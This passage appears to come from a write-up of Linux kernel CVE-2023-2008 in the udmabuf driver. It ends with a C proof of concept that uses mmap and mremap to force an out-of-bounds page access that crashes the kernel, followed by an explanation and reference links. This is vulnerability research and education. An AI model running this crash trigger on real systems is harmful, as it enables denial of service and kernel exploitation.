```c
	}

	memset(&create, 0, sizeof(create));
	create.memfd  = memfd;
	create.offset = 0;
	create.size   = size;

	if ((udmabuf_fd = ioctl(devfd, UDMABUF_CREATE, &create)) < 0)
	{
		printf("ioctl UDMABUF_CREATE error: %s\n", strerror(errno));
		return errno;
	}

	// importer
	if ((buf = (char*)mmap(NULL, size, PROT_READ | PROT_WRITE, MAP_SHARED, udmabuf_fd, 0)) == MAP_FAILED)
	{
		printf("mmap error: %s\n", strerror(errno));
		return errno;
	}

	if ((buf = (char*)mremap(buf, size, size * 2, MREMAP_MAYMOVE)) == MAP_FAILED)
	{
		printf("mremap error: %s\n", strerror(errno));
		return errno;
	}

	buf[0] = 'j';
	buf[1] = 'a';
	buf[2] = 'm';
	buf[3] = 'e';
	buf[4] = 's';
	buf[5] = '\0';
	printf ("arbitraty physical page read: %d\n", buf[size + 10]);

	close(udmabuf_fd);
	close(memfd);
	close(devfd);
	return 0;
}
```

Let's focus on the importer part, as we already discussed everything else. We first call `mmap` on the `udmabuf` file descriptor so we can map it to our virtual memory address space. Then, `mremap` is needed to increase the size of the mapping, so that when we perform the out-of-bounds access, the kernel will ask the udmabuf driver for the physical page because we will still be on a udmabuf mapping. Without the `mremap`, the OOB access would land on a memory region that does not belong to the udmabuf driver.

After the map, we can proceed to access the `buf` freely. We wrote the first six characters as an example. The moment we perform `buf[0] = 'j'`, it generates a page fault which will be handled correctly by the driver. The next 4095 bytes are now mapped. However, when we perform the OOB access on the print operation, the udmabuf driver will try to get the 11th page in `ubuf->pages`, which is bigger than its size. This will crash the kernel.
It's possible to check the crash log with dmesg. `RIP` informs the instruction that generated the crash, and it confirms that it is inside the `udmabuf_vm_fault` function. We can see the functions that were called through the Call Trace.


[cve-nist]: <https://nvd.nist.gov/vuln/detail/CVE-2023-2008> "CVE-2023-2008"
[cve-patch]: <https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=05b252cccb2e5c3f56119d25de684b4f810ba40a> "CVE-2023-2008 patch"
[cve-exploit]: <https://github.com/bluefrostsecurity/CVE-2023-2008> "Exploit implementation"
[cve-writeup]: <https://labs.bluefrostsecurity.de/blog/cve-2023-2008.html> "Writeup"
[oob-cwe-write]: <https://cwe.mitre.org/data/definitions/787.html> "CWE-787"
[oob-cwe-read]: <https://cwe.mitre.org/data/definitions/125.html> "CWE-125"
[dma-buf]: <https://www.kernel.org/doc/html/latest/driver-api/dma-buf.html> "dma-buf"
[udmabuf]: <https://github.com/ikwzm/udmabuf> "udmabuf"
[dma-wikipedia]: <https://en.wikipedia.org/wiki/Direct_memory_access> "dma"
[lexfo-cve-2017-11176]: <https://blog.lexfo.fr/cve-2017-11176-linux-kernel-exploitation-part1.html> "Lexfo CVE-2017-11176"
[lexfo-cve-2017-11176-p3]: <https://blog.lexfo.fr/cve-2017-11176-linux-kernel-exploitation-part3.html> "Lexfo CVE-2017-11176"
[man-memfd_create]: <https://www.man7.org/linux/man-pages/man2/memfd_create.2.html> "memfd_create(2)"
[man-fcntl]: <https://www.man7.org/linux/man-pages/man2/fcntl.2.html> "fcntl"
[man-ioctl]: <https://linux.die.net/man/2/ioctl> "ioctl"
[ioctl-new-way]: <https://lwn.net/Articles/119652/> "ioctl-new-way"
[address-space]: <https://www.kernel.org/doc/html/latest/filesystems/vfs.html#the-address-space-object> "address-space"
[man-mmap]: <https://linux.die.net/man/2/mmap> "mmap"
[man-fork]: <https://www.man7.org/linux/man-pages/man2/fork.2.html> "fork"
[unp-book]: <http://www.unpbook.com/> "unp-book"
[sys_mmap]: <https://elixir.bootlin.com/linux/v5.4.84/source/arch/x86/kernel/sys_x86_64.c#L91> "sys_mmap"
[ksys_mmap_pgoff]: <https://elixir.bootlin.com/linux/v5.4.84/source/mm/mmap.c#L1577> "ksys_mmap_pgoff"
[vm_mmap_pgoff]: <https://elixir.bootlin.com/linux/v5.4.84/source/mm/util.c#L483> "vm_mmap_pgoff"
[do_mmap_pgoff]: <https://elixir.bootlin.com/linux/v5.4.84/source/include/linux/mm.h#L2355> "do_mmap_pgoff"
[do_mmap]: <https://elixir.bootlin.com/linux/v5.4.84/source/mm/mmap.c#L1389> "do_mmap"
[mmap_region]: <https://elixir.bootlin.com/linux/v5.4.84/source/mm/mmap.c#L1711> "mmap_region"
[call_mmap]: <https://elixir.bootlin.com/linux/v5.4.84/source/include/linux/fs.h#L1906> "call_mmap"
[vm_area]: <https://linux-kernel-labs.github.io/refs/heads/master/labs/memory_mapping.html> "vm_area"
[azeria-heap]: <https://azeria-labs.com/heap-exploitation-part-1-understanding-the-glibc-heap-implementation/> "malloc internals"
[oops-wikipedia]: <https://en.wikipedia.org/wiki/Linux_kernel_oops> "kernel Oops"
[pipe_buffers-write]: <https://www.interruptlabs.co.uk/articles/pipe-buffer> "Pipe Buffers exploitation"
[heap-feng-shui]: <https://en.wikipedia.org/wiki/Heap_feng_shui> "Heap feng shui"
[oracle-slub]: <https://blogs.oracle.com/linux/post/linux-slub-allocator-internals-and-debugging-1> "SLUB allocator"